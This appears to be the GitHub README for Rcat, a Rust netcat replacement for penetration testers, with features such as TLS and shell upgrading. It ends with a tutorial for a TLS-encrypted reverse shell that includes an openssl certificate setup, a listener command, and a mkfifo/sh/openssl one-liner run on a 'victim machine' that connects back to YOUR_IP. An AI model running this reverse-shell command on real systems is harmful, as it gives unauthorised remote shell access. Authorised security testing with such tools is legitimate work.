 <div align="center">

# Rcat
### A better netcat for hackers

</div>

### Overview

__Rcat__ is a modern _netcat_ written in Rust, packed with features for hackers.

<img src="images/rcat_curl.svg">

Here we listen on port `tcp:9001`, and receive an HTTP request made with `curl`.

### Install

```bash
git clone git@github.com:0xfalafel/rcat.git
cargo install --path .
```

### Features

#### Familiar syntax

Rcat keeps a syntax similar to _netcat_. You already know how to use it.

* `-l` to listen.
* `-u` for udp.

#### Shell Upgrade

Rcat can __upgrade your shells__ with the `--pwn` option.  
With an upgraded shell, you can use shortcuts like `Ctrl + C`, clear the terminal with `clear` or `Ctrl + L`, etc. It's like having an SSH connection.
There is no need to [type 7 commands](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) each time you obtain a reverse shell.

<img src="images/rcat_pwn.svg">

> Here the commands `stty rows 22 cols 86` and `export TERM=xterm-256colors` are typed automatically when the connection is received.

#### Resize

Unless you use the `-R` option, the remote terminal will automatically be resized when you change the size of your terminal.  
(Rcat sends a _SIGTSTP_, resizes the terminal with the `stty` command then uses `fg` to restore the application running.)

<img src="images/rcat_resize.webp">

> In this clip we run `htop` on the victim machine, and the reverse shell is automatically resized.

#### TLS support

Support of __TLS__ with `-t` or `--tls`.  
Here we do an HTTPS request. We use `-t` to establish a _TLS connection_, and `-c` to replace newlines (`\n`) with _CRLF_ newlines (`\r\n`) as required by the HTTP protocol.

<img src="images/rcat_tls.svg">

  
## Encrypted Reverse shell

With TLS support, let's see how we can do an __TLS encrypted reverse shell__. Without installing any new tools on the victim.

If possible, you should probably use a signed certificate (with [let's encrypt](https://certbot.eff.org/instructions) for example), but for now let's use a self-signed certificate.

### Generate Key and Certificate

Let's generate a __self-signed certificate__ with `openssl`.

```bash
openssl genrsa -out private-key.pem 2048
openssl req -new -x509 -key private-key.pem -out my.cert -days 365
```

### Reverse Shell

Armed with this, let's create a _listener_ that supports TLS.

```bash
rcat -l 9001 -t --cert my.cert --key private-key.pem --pwn
```

Then execute the following command on the victim machine:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| openssl s_client -connect YOUR_IP:9001 >/tmp/f
```
